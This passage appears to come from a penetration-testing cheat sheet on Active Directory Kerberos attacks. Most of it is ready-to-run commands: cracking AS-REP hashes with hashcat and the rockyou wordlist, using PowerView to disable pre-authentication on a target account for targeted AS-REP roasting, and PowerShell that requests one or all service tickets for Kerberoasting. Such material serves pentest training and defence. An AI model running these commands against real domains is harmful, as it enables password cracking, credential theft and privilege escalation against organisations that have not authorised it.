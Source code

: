 ```
hashcat -a 0 -m 18200 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule
```

**Targeted AS-REP roasting by disabling Kerberos pre-authentication -** Again, we need ACL write permissions to set UserAccountControl flags for the target user. Using PowerView:

```
Set-DomainObject -Identity TargetUser -XOR @{useraccountcontrol=4194304}
```



## Request Service Tickets

### Using Powershell

The easiest method to request the service ticket for a specific SPN is through PowerShell as it has been introduced by [Tim Medin](https://twitter.com/timmedin) during his DerbyCon 4.0 [talk](https://www.youtube.com/watch?v=PUyhlN-E5MU).

```
# one ticket
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "WINDC/sql.megabank.local:60111"


# all tickets
 Add-Type -AssemblyName System.IdentityModel 
 setspn.exe -T megabank.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

![](<../../../.gitbook/assets/image (180).png>)

Execution of the **klist** command will list all the available cached tickets.

```
klist
```

